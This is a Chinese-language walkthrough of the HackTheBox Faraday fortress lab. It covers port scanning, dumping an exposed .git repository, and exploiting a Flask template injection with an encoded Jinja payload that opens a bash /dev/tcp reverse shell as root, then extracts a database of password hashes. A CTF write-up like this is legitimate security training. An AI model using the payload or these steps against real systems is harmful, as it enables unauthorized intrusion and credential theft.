



# Faraday

:::note ABOUT Faraday

About us

- `https://faradaysec.com/`
- `https://twitter.com/faradaysec`

Faraday is not a conventional security firm. We understand cybersecurity not only as a result of isolated individual activities, but rather as an integrated ecosystem in constant development. We work to improve this ecosystem by creating accessible tools designed to maximize impact and enhance security globally.

- +15 years of experience providing innovative solutions and cutting edge security consulting services.
- Our specialists are presenters at the best security research conferences such as Defcon, BlackHat, Shakacon, H2HC, Troppers, Code Blue, AV Tokyo, SECCON and HITB
- Exclusive Investigation Center. Several results from our research were published in the last years.
- Constant contribution to the global security community. Faraday’s founders are the organizers of Ekoparty, the biggest technical security information conference in Latin America with +3000 attendees.

Currently, our main project is the development of a tool to help detect and solve the most common vulnerabilities, in order to address the issues of the 99% of companies that didn't have access to cyber security. We also have a research team to keep up with cutting-edge problems and solutions, and provide consulting services to help companies face their security challenges.We know that finding a meaningful and rewarding job can be a long journey. Our goal is to make that process as easy as possible for you, and to create a work environment that's satisfying.
Find the career of your dreams and work with the best.

Faraday 并非一家传统的安全公司。我们不仅将网络安全视为孤立的个人活动的结果，还将其视为一个持续发展的集成生态系统。我们致力于通过创建可访问的工具来改善此生态系统，旨在最大化影响并增强全球安全性。

- 超过 15 年提供创新解决方案和尖端安全咨询服务的经验。
- 我们的专家是 Defcon、BlackHat、Shakacon、H2HC、Troppers、Code Blue、AV Tokyo、SECCON 和 HITB 等最佳安全研究会议的发言人
- 独家调查中心。我们研究的若干结果已在过去几年内发表。
- 持续为全球安全社区做出贡献。Faraday 的创始人组织了 Ekoparty，这是拉丁美洲最大的技术安全信息会议，拥有 3000 多名与会者。

目前，我们的主要项目是开发一种工具来帮助检测和解决最常见的漏洞，以便解决 99% 无法获得网络安全的公司的难题。我们还有一个研究团队，以跟上尖端问题和解决方案，并提供咨询服务，以帮助公司应对其安全挑战。我们知道寻找一份有意义且有回报的工作可能是一个漫长的旅程。我们的目标是让这个过程对您来说尽可能容易，并创造一个令人满意的工作环境。
找到您梦想中的职业，并与最优秀的人一起工作。

:::

## ENTRY POINT

```plaintext
10.13.37.10
```

## First of all

```plaintext title="sudo nmap -A --min-rate=5000 -T4 -sU --top-ports 20 10.13.37.14"
None
```

```plaintext title="sudo nmap -A --min-rate=5000 -T5 -p- 10.13.37.14"
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 a8:05:53:ae:b1:8d:7e:90:f1:ea:81:6b:18:f6:5a:68 (RSA)
|   256 2e:7f:96:ec:c9:35:df:0a:cb:63:73:26:7c:15:9d:f5 (ECDSA)
|_  256 2f:ab:d4:f5:48:45:10:d2:3c:4e:55:ce:82:9e:22:3a (ED25519)
80/tcp   open  http            nginx 1.13.12
| http-git:
|   10.13.37.14:80/.git/
|     Git repository found!
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Add app logic & requirements.txt
| http-title: Notifications
|_Requested resource was http://10.13.37.14/login?next=%2F
|_http-server-header: nginx/1.13.12
8888/tcp open  sun-answerbook?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, LSCP, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe:
|     Welcome to FaradaySEC stats!!!
|     Username: Bad chars detected!
|   NULL:
|     Welcome to FaradaySEC stats!!!
|_    Username:
```

```plaintext title="rustscan --ulimit 5000 -a 10.13.37.14"
Open 10.13.37.14:22
Open 10.13.37.14:80
Open 10.13.37.14:8888
```

## Introduction

```plaintext
This Fortress, created by Faraday, was designed not only as a puzzle, but mainly as a tool to learn: a server’s alert system has been hacked, your task is to use your skills to find out exactly how they did it, and to take advantage of this knowledge in order to hack the system yourself. The idea behind the Fortress is that security is not only about knowing, it’s about being able to learn what you need, when you need to. To be a hacker means not only a set of skills, but also an attitude towards learning. To conquer the Fortress, participants will need to exercise the following abilities: Web Exploitation Lateral thinking Networking You’ll also be able to get an introduction to reverse engineering and binary exploitation, crucial skills to face complex problems. “Hack the box has been a gateway for learning in new, unconventional ways, in line with the principles of the hacker community. Our fortress was designed to do exactly that: practice learning from another hacker’s activity in a challenging environment”. Says Javier Aguinaga, Security Research Lead at Faraday. “Faraday conceives cyber security as an integrated ecosystem, and it’s main goal is to improve the security environment for all the community. Collaborating with the formation of new hackers is part of our mission, and Hack the Box is the perfect ally”. Confronting this fortress will be a great opportunity to become a better hacker. Conquering it will allow you to stand out.

这座由 Faraday 创建的堡垒不仅被设计为一个谜题，而且主要是一个学习工具：一台服务器的警报系统被黑客入侵，你的任务就是利用你的技能找出他们是如何做到的，并利用这些知识来自己入侵系统。堡垒背后的理念是，安全性不仅仅在于了解，还在于能够在需要时学习你需要的东西。成为一名黑客不仅意味着拥有一套技能，还意味着一种学习态度。为了征服堡垒，参与者需要锻炼以下能力：网络漏洞利用横向思维网络你还可以获得逆向工程和二进制漏洞利用的介绍，这些技能对于解决复杂问题至关重要。“入侵盒子一直是以前所未有的非常规方式学习的门户，它符合黑客社区的原则。我们的堡垒旨在做到这一点：在具有挑战性的环境中，通过其他黑客的活动来练习学习”。Faraday 的安全研究主管 Javier Aguinaga 说。“Faraday 将网络安全视为一个集成的生态系统，其主要目标是改善整个社区的安全环境。与培养新黑客合作是我们使命的一部分，而入侵盒子是完美的盟友”。面对这座堡垒将成为成为一名更优秀的黑客的绝佳机会。征服它将让你脱颖而出。
```

## Warmup

发现 `80` 端口存在 http 服务


尝试注册一个账户



注册后尝试登陆，跳转到


看起来是一种 smtp 客户端系统，在本地启动一个临时 smtp 服务器

```shell
┌──(randark ㉿ kali)-[~/tmp/HackTheBox-Fortresses-Faraday]
└─$ sudo python3 -m smtpd -c DebuggingServer -n 10.10.16.2:25
```

在配置好连接参数之后



:::warning

如果使用 python 来启动一个临时 smtp 服务器的话，如果没有配置相关鉴权逻辑，那么就建议 username 和 password 直接留空

:::

跳转到选择 `name server` 的部分，这里随便选择一个 `JohnConnor`


然后发送一条测试邮件



收到

```shell
(py38) ┌──(randark ㉿ kali)-[~]
└─$ python3 -m smtpd --debug -c DebuggingServer -n 10.10.16.2:8025
DebuggingServer started at Fri Mar  8 18:09:24 2024
        Local addr: ('10.10.16.2', 8025)
        Remote addr:('localhost', 25)
Incoming connection from ('10.13.37.14', 58474)
Peer: ('10.13.37.14', 58474)
Data: b'ehlo [172.22.0.2]'
Data: b'mail FROM:<no-reply@faradaysec.com>'
===> MAIL FROM:<no-reply@faradaysec.com>
sender: no-reply@faradaysec.com
Data: b'rcpt TO:<pastaflora@faradaysec.com>'
===> RCPT TO:<pastaflora@faradaysec.com>
recips: ['pastaflora@faradaysec.com']
Data: b'data'
Data: b'Subject: 123\r\n\r\nAn event was reported at JohnConnor:\r\n123\r\nHere is your gift FARADAY{ehlo_@nd_w3lcom3!}'
---------- MESSAGE FOLLOWS ----------
b'Subject: 123'
b'X-Peer: 10.13.37.14'
b''
b'An event was reported at JohnConnor:'
b'123'
b'Here is your gift FARADAY{ehlo_@nd_w3lcom3!}'
------------ END MESSAGE ------------
Data: b'quit'
```

```plaintext title="Flag"
FARADAY{ehlo_@nd_w3lcom3!}
```

## Let's count

尝试进行目录爆破

```plaintext
[15:03:00] 200 -   33B  - /.git/COMMIT_EDITMSG
[15:03:00] 200 -  141B  - /.git/config
[15:03:00] 200 -   23B  - /.git/HEAD
[15:03:00] 200 -   73B  - /.git/description
[15:03:00] 200 -  240B  - /.git/info/exclude
[15:03:00] 200 -    4KB - /.git/index
[15:03:00] 200 -  476B  - /.git/logs/HEAD
[15:03:01] 200 -  476B  - /.git/logs/refs/heads/master
[15:03:01] 200 -   41B  - /.git/refs/heads/master
[15:04:48] 200 -    2KB - /login
[15:04:49] 302 -  218B  - /logout  ->  http://10.13.37.14/login
[15:05:15] 302 -  250B  - /profile  ->  http://10.13.37.14/login?next=%2Fprofile
[15:05:28] 200 -    2KB - /signup
```

发现存在 `.git` 目录，尝试使用 [Github - kost/dvcs-ripper](https://github.com/kost/dvcs-ripper) 进行窃取

```shell
┌──(randark ㉿ kali)-[~/tmp/HackTheBox-Fortresses-Faraday]
└─$ ~/tools/dvcs-ripper/rip-git.pl -v -u http://10.13.37.14/.git
[i] Downloading git files from http://10.13.37.14/.git
[i] Auto-detecting 404 as 200 with 3 requests
[i] Getting correct 404 responses
[i] Using session name: KBnsadeH
[d] found COMMIT_EDITMSG
[d] found config
[d] found description
[d] found HEAD
[d] found index
[!] Not found for packed-refs: 404 NOT FOUND
[!] Not found for objects/info/alternates: 404 NOT FOUND
[!] Not found for info/grafts: 404 NOT FOUND
[d] found logs/HEAD
[d] found objects/15/9f5dc55fbb0e096c935e5c12a3e52d3c7107ad
[d] found objects/ee/b5210f419f8b878826cde74c7990bc8b3d857a
[d] found objects/1e/544c6d3204684420c6dcc1b58a2fdc460121a7
[d] found refs/heads/master
[i] Running git fsck to check for missing items
Checking object directories: 100% (256/256), done.
error: 95d0aeb5e804397ded0d09ce4e349660400e6602: invalid sha1 pointer in cache-tree of .git/index
[d] found objects/05/014a26ddf72844fb9101454df62beba6c4a143
[d] found objects/86/61e3e354d62d2443029226e2ff98681ac8d19d
[d] found objects/86/b6845bc342029a92ad908781435f95f000fabb
[d] found objects/09/83980a5f749e5387b36e3e9608939b550f4345
[d] found objects/8a/46eaec1625cdfd4fbe24e14da049e611653e73
[d] found objects/0c/4fe2db50a31437f50daabefb9958d75767d599
[d] found objects/8e/ac957a5120eb7e5a6b1f838cfcac1fbd5653c9
[d] found objects/91/b0fc4c816cd0acedb996444c4d3ec6703e3805
[d] found objects/93/cf73e9c5dc8bf95c8f530db5b8ba841d3d1a4d
[d] found objects/95/d0aeb5e804397ded0d09ce4e349660400e6602
[d] found objects/17/b5bd1c0e032f7244363e29fabba9015691f490
[d] found objects/19/326adeb18b6eb245d0fedad135f0df0476d76b
[d] found objects/1b/393db3e482ab736dd3873389c279195992e32d
[d] found objects/9b/5cfcbc57130ae4b466ae85aa21f98a70d35dee
[d] found objects/25/9a9e2c65738b9d749872c944e423531fd92159
[d] found objects/a6/312f33773595baf1cf4deac1e6100148dd699a
[d] found objects/ab/b70e0fffb6b249ab231cb59aea077f3ff9efbe
[d] found objects/b0/9d9faf678e8c75cb0b2cadcbe494345eafda61
[d] found objects/b8/551f7c0f0060c97ad5e0a348fec522d7e26247
[d] found objects/b9/39eb6f394c22a5df6277b881e7d86fc6975797
[d] found objects/3d/1b7fec1a0474e2d15766a8814e6ac647aa5e7f
[d] found objects/c6/ef392b26a9b29466388c61a4bce975ac12f282
[d] found objects/c9/5b91c11f5deb64d1a062fc3a545a24c64f4276
[d] found objects/50/937333b99a5e168ac9e8292b22edd7e96c3e6a
[d] found objects/52/1afc5be7274b71582d5518445cac3b56704391
[d] found objects/53/08df61af3cc99e54552086213bdf1b8af4af31
[d] found objects/53/4452210e7129a8a33f14a29996c060ab69fad1
[d] found objects/54/d2495018b0d93630a2ce0811fd246fafbcd569
[d] found objects/54/c0fbeed5b4f97ea31ab99b358704e02863a8a0
[d] found objects/5e/23514f33d0a909849dbaf87ece60bb1561ba4e
[d] found objects/60/669b946714ac4c3ce9e117f0e473c12f7ef1f3
[d] found objects/65/33f319a8a39c9164dbcec7fce73b0ac9dc087b
[d] found objects/e5/f6ce91b3818406be808fdd80b86fc7db5c588b
[d] found objects/e5/a242994035de13059fe6f1fe974bf35a2291e1
[d] found objects/70/1f6715c2c754ca5f03d1009a949400354160b2
[d] found objects/f1/e68d3190fb90ef5ae4ba6672efc19186771aca
[d] found objects/75/7dbf30c59149020cdf78577e8a5c08e3c9209d
[d] found objects/78/c533b4e7ecb48d0da3017e1361c05765ff43c9
[d] found objects/79/c82c0fad92c918ae2c41043ab1f671793cd2c2
[d] found objects/fb/e9403a1ad0aa8c5402f3bc574085094d5bb3f5
[i] Got items with git fsck: 40, Items fetched: 40
[i] Running git fsck to check for missing items
Checking object directories: 100% (256/256), done.
error: 2541babd714eeb97cc2ba90a15d26b7e9a177834: invalid sha1 pointer in cache-tree of .git/index
error: c0fc8ee29a059258c1dfb35583a79f0cd4fae869: invalid sha1 pointer in cache-tree of .git/index
[d] found objects/25/41babd714eeb97cc2ba90a15d26b7e9a177834
[d] found objects/c0/fc8ee29a059258c1dfb35583a79f0cd4fae869
[i] Got items with git fsck: 2, Items fetched: 2
[i] Running git fsck to check for missing items
Checking object directories: 100% (256/256), done.
error: 8475c083effd73901044e7581b3fed5f21e42c49: invalid sha1 pointer in cache-tree of .git/index
[d] found objects/84/75c083effd73901044e7581b3fed5f21e42c49
[i] Got items with git fsck: 1, Items fetched: 1
[i] Running git fsck to check for missing items
Checking object directories: 100% (256/256), done.
error: 39ccfada2407d3837b38448fda70ba415123c430: invalid sha1 pointer in cache-tree of .git/index
error: 85643d0e06aa610d2d6ed0c45ebf6dd82c458570: invalid sha1 pointer in cache-tree of .git/index
[d] found objects/85/643d0e06aa610d2d6ed0c45ebf6dd82c458570
[d] found objects/39/ccfada2407d3837b38448fda70ba415123c430
[i] Got items with git fsck: 2, Items fetched: 2
[i] Running git fsck to check for missing items
Checking object directories: 100% (256/256), done.
[i] Got items with git fsck: 0, Items fetched: 0
[!] No more items to fetch. That's it!
```

得到了

```plaintext
-rwxr-xr-x 1 randark randark 8.0K Mar  8 14:41 app.py
drwxr-xr-x 3 randark randark 4.0K Mar  8 15:02 reports
-rw-r--r-- 1 randark randark  203 Mar  8 14:41 requirements.txt
drwxr-xr-x 3 randark randark 4.0K Mar  8 14:41 static
drwxr-xr-x 2 randark randark 4.0K Mar  8 14:41 templates
```

在服务端的源码中

```python title="app.py"
#!/usr/bin/env python3
from flask import Flask, request, g, render_template, render_template_string, Response, send_from_directory
from flask import redirect, url_for
from flask_mail import Mail, Message

from flask_sqlalchemy import SQLAlchemy
from werkzeug.security import generate_password_hash, check_password_hash
from flask_login import UserMixin, LoginManager, login_required, current_user, logout_user, login_user

import sqlite3
import os
import smtplib


app = Flask(__name__)
app.config['SECRET_KEY'] = os.environ['SECRET_KEY']
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///db/database.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False

template = '''
An event was reported at SERVER:
{{message}}
Here is your gift {{tinyflag}}
'''

db = SQLAlchemy(app)

db.init_app(app)

login = LoginManager()
login.init_app(app)
login.login_view = 'login'

@login.user_loader
def load_user(id):
    return UserModel.query.get(int(id))

class UserModel(UserMixin, db.Model):
    id = db.Column(db.Integer, primary_key=True)
    email = db.Column(db.String(80), nullable=False, unique=True)
    username = db.Column(db.String(100), nullable=False, unique=True)
    password_hash = db.Column(db.String(), nullable=False)
    config = db.relationship('SmtpConfig', backref='owner', lazy=True)
    message = db.relationship('MessageModel', backref='sender', lazy=True)

    def set_password(self, password):
        self.password_hash = generate_password_hash(password, "sha256")

    def check_password(self, password):
        return check_password_hash(self.password_hash, password)

class SmtpConfig(db.Model):
    server_id = db.Column(db.Integer, primary_key=True)
    host = db.Column(db.String(100), nullable=False)
    port = db.Column(db.Integer, nullable=False)
    smtp_username = db.Column(db.String(100), nullable=False)
    smtp_password = db.Column(db.String(), nullable=False)
    use_tls = db.Column(db.Boolean)
    use_ssl = db.Column(db.Boolean)
    user_id = db.Column(db.Integer, db.ForeignKey('user_model.id'), nullable=False)

class MessageModel(db.Model):
    message_id = db.Column(db.Integer, primary_key=True)
    server = db.Column(db.String(256))
    dest = db.Column(db.String(100))
    subject = db.Column(db.String(100))
    body = db.Column(db.String(100))
    user_id = db.Column(db.Integer, db.ForeignKey('user_model.id'), nullable=False)

@app.before_first_request
def create_table():
    db.create_all()

@app.teardown_appcontext
def close_connection(exception):
    db.session.close()
    db.get_engine(app).dispose()

@app.route('/sendMessage', methods=['POST', 'GET'])
@login_required
def sendMessage():
    if request.method == "POST":
        if current_user.config and current_user.message:
            smtp = current_user.config[0]
            message = current_user.message[0]
            message.dest = request.form['dest']
            message.subject = request.form['subject']
            message.body =  "Subject: %s\r\n" % message.subject + render_template_string(template.replace('SERVER', message.server), message=request.form['body'], tinyflag=os.environ['TINYFLAG'])
            db.session.commit()
            try:
                server = smtplib.SMTP(host=smtp.host, port=smtp.port)
                if smtp.smtp_username != '':
                    server.login(smtp.smtp_username, smtp.smtp_password)
                server.sendmail('no-reply@faradaysec.com', message.dest, message.body)
                server.quit()
            except:
                return render_template('bad-connection.html')
        elif not current_user.config:
            return redirect('/configuration')
        else:
            return redirect('/profile')

    return render_template('sender.html')

@app.route('/profile')
@login_required
def profile():
    name = request.args.get('name', '')
    if name:
        if not current_user.message:
            message = MessageModel(server=name, user_id=current_user.id)
            db.session.add(message)
            db.session.commit()
        else:
            current_user.message[0].server = name
            db.session.commit()
        return redirect('/sendMessage')

    return render_template('base.html')

@app.route('/configuration', methods=['POST', 'GET'])
@login_required
def config():
    if request.method == 'POST':
        if not current_user.config:
            host = request.form['host']
            port = request.form['port']
            smtp_username = request.form['username']
            smtp_password = request.form['password']
            use_tls = "use_tls" in request.form
            use_ssl = "use_ssl" in request.form

            conf = SmtpConfig(
                host=host,
                port=port,
                smtp_username=smtp_username,
                smtp_password=smtp_password,
                use_tls=use_tls,
                use_ssl=use_ssl,
                user_id=current_user.id
                )
            db.session.add(conf)
            db.session.commit()
        else:
            current_user.config[0].host = request.form['host']
            current_user.config[0].port = request.form['port']
            current_user.config[0].smtp_username = request.form['username']
            current_user.config[0].smtp_password = request.form['password']
            current_user.config[0].use_tls = "use_tls" in request.form
            current_user.config[0].use_ssl = "use_ssl" in request.form
            db.session.commit()

        return render_template('conf-saved.html')
    else:
        if current_user.config:
            return render_template(
                'conf.html',
                host=current_user.config[0].host,
                port=current_user.config[0].port,
                username=current_user.config[0].smtp_username,
                password=current_user.config[0].smtp_password,
                use_tls=current_user.config[0].use_tls,
                use_ssl=current_user.config[0].use_ssl
                )
        return render_template('conf.html')

@app.route('/')
@login_required
def index():
    if current_user.is_authenticated and current_user.config:
        return redirect('/profile')
    elif current_user.is_authenticated:
        return redirect('/configuration')

    return redirect('/login')

@app.route('/login', methods=['POST', 'GET'])
def login():
    if current_user.is_authenticated:
        if not current_user.config:
            return redirect('/configuration')
        else:
            return redirect('/profile')

    if request.method == 'POST':
        username = request.form['username']
        user = UserModel.query.filter_by(username = username).first()
        if user is not None and user.check_password(request.form['password']):
            login_user(user)
            if not current_user.config:
                return redirect('/configuration')
            else:
                return redirect('/profile')

    return render_template('login.html')

@app.route('/signup', methods=['POST', 'GET'])
def signup():
    if current_user.is_authenticated:
        return redirect('/profile')

    if request.method == 'POST':
        email = request.form['email']
        username = request.form['username']
        password = request.form['password']

        email_exists = UserModel.query.filter_by(email=email).first()
        username_exists =UserModel.query.filter_by(username=username).first()

        if email_exists and username_exists:
            return render_template('register.html', bad_email=True, bad_username=True)

        if email_exists:
            return render_template('register.html', bad_email=True)

        if username_exists:
            return render_template('register.html', bad_username=True)

        user = UserModel(email=email, username=username)
        user.set_password(password)
        db.session.add(user)
        db.session.commit()
        return redirect('/configuration')

    return render_template('register.html')

@app.route('/logout')
def logout():
    logout_user()
    return redirect('/login')

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=8000, debug=True)
```

发现了 Python 中 SSTI 常见的高危函数 `render_template` 和 `render_template_string`

```python title="/profile"
@app.route('/profile')
@login_required
def profile():
    name = request.args.get('name', '')
    if name:
        if not current_user.message:
            message = MessageModel(server=name, user_id=current_user.id)
            db.session.add(message)
            db.session.commit()
        else:
            current_user.message[0].server = name
            db.session.commit()
        return redirect('/sendMessage')

    return render_template('base.html')
```

以及

```python title="/sendMessage"
@app.route('/sendMessage', methods=['POST', 'GET'])
@login_required
def sendMessage():
    if request.method == "POST":
        if current_user.config and current_user.message:
            smtp = current_user.config[0]
            message = current_user.message[0]
            message.dest = request.form['dest']
            message.subject = request.form['subject']
            message.body =  "Subject: %s\r\n" % message.subject + render_template_string(template.replace('SERVER', message.server), message=request.form['body'], tinyflag=os.environ['TINYFLAG'])
            db.session.commit()
            try:
                server = smtplib.SMTP(host=smtp.host, port=smtp.port)
                if smtp.smtp_username != '':
                    server.login(smtp.smtp_username, smtp.smtp_password)
                server.sendmail('no-reply@faradaysec.com', message.dest, message.body)
                server.quit()
            except:
                return render_template('bad-connection.html')
        elif not current_user.config:
            return redirect('/configuration')
        else:
            return redirect('/profile')

    return render_template('sender.html')
```

那么就可以尝试直接进行 SSTI 注入

首先，将 SSTI 的载荷通过 `/profile` 路由进行传递，例如

```plaintext
http://10.13.37.14/profile?name={{7*7}}
```

然后正常的发送邮件，即可收到

```plaintext
Incoming connection from ('10.13.37.14', 58560)
Peer: ('10.13.37.14', 58560)
Data: b'ehlo [172.22.0.2]'
Data: b'mail FROM:<no-reply@faradaysec.com>'
===> MAIL FROM:<no-reply@faradaysec.com>
sender: no-reply@faradaysec.com
Data: b'rcpt TO:<pastaflora@faradaysec.com>'
===> RCPT TO:<pastaflora@faradaysec.com>
recips: ['pastaflora@faradaysec.com']
Data: b'data'
Data: b'Subject: a\r\n\r\nAn event was reported at 7*7}}:\r\na\r\nHere is your gift FARADAY{ehlo_@nd_w3lcom3!}'
---------- MESSAGE FOLLOWS ----------
b'Subject: a'
b'X-Peer: 10.13.37.14'
b''
b'An event was reported at 7*7}}:'
b'a'
b'Here is your gift FARADAY{ehlo_@nd_w3lcom3!}'
------------ END MESSAGE ------------
Data: b'quit'
```

但是就会遇到一个问题，疑似 `{{` 双大括号被过滤了，尝试进行绕过

```plaintext
# {{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}
c.__init__.__globals__[\'__builtins__\'].eval("__import__(\'os\').popen(\'ls /\').read()")}}:'
```

看样子还有一点过滤，继续改进 payload

```plaintext
 a 
```

对于使用 http GET 进行传输，进行一定的编码

```plaintext
{%25+if+request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('bash+-c+"bash+-i+>%26+/dev/tcp/10.10.16.2/9999+0>%261"')['read']()+%3d%3d+'chiv'+%25}+a+{%25+endif+%25}
```

成功在侦听器上收到回连的 shell

```shell
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[18:35:40] Welcome to pwncat 🐈!
[18:44:52] received connection from 10.13.37.14:51520
[18:45:01] 10.13.37.14:51520: registered new host w/ db
(local) pwncat$ back
(remote) root@98aa0f47eb96:/app# whoami
root
(remote) root@98aa0f47eb96:/app# cat flag.txt
FARADAY{7x7_1s_n0t_@lw4ys_49}
```

```plaintext title="Flag"
FARADAY{7x7_1s_n0t_@lw4ys_49}
```

## Time to play

在服务的目录下，发现数据库目录

```shell
(remote) root@98aa0f47eb96:/app# ls -lh
total 40K
drwxr-xr-x 2 root root 4.0K Jul 21  2021 __pycache__
-rwxr-xr-x 1 root root 8.4K Jul 21  2021 app.py
drwxr-xr-x 2 root root 4.0K Mar  8 10:44 db
-rw-r--r-- 1 root root   30 Jul 16  2021 flag.txt
-rw-r--r-- 1 root root  220 Jul 16  2021 requirements.txt
drwxr-xr-x 3 root root 4.0K Jul 16  2021 static
drwxr-xr-x 2 root root 4.0K Jul 21  2021 templates
-rw-r--r-- 1 root root   71 Jul 16  2021 wsgi.py
(remote) root@98aa0f47eb96:/app# ls -lh ./db/
total 24K
-rw-r--r-- 1 root root 24K Mar  8 10:44 database.db
```

将文件下载到本地

```shell
(local) pwncat$ download ./db/database.db .
./db/database.db ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 24.6/24.6 KB • ? • 0:00:00
[18:49:04] downloaded 24.58KiB in 2.12 seconds
```

并检测文件类型

```shell
┌──(randark ㉿ kali)-[~/tmp/HackTheBox-Fortresses-Faraday]
└─$ file database.db
database.db: SQLite 3.x database, last written using SQLite version 3016002, file counter 248, database pages 6, cookie 0x3, schema 4, UTF-8, version-valid-for 248
```

那么加载数据库，在其中得到表 `user_model`

| id  |         email          |   username    |                                      password_hash                                       |
| :-: | :--------------------: | :-----------: | :--------------------------------------------------------------------------------------: |
|  1  | `admin@faradaysec.com` | administrator | sha256$GqgROghu45Dw4D8Z$5a7eee71208e1e3a9e3cc271ad0fd31fec133375587dc6ac1d29d26494c3a20f |
|  2  | `octo@faradaysec.com`  |     octo      | sha256$gqsmQ2210dEMufAk$98423cb07f845f263405de55edb3fa9eb09ada73219380600fc98c54cd700258 |
|  3  | `pasta@faradaysec.com` |     pasta     | sha256$MsbGKnO1PaFa3jhV$6b166f7f0066a96e7565a81b8e27b979ca3702fdb1a80cef0a1382046ed5e023 |
|  4  | `root@faradaysec.com`  |     root      | sha256$L2eaiLgdT73AvPij$dc98c1e290b1ec3b9b8f417a553f2abd42b94694e2a62037e4f98d622c182337 |
|  5  |    `pepe@gmail.com`    |     pepe      | sha256$9NzZrF4OtO9r0nFx$c3aa1b68bea55b4493d2ae96ec596176890c4ccb6dedf744be6f6bdbd652255d |
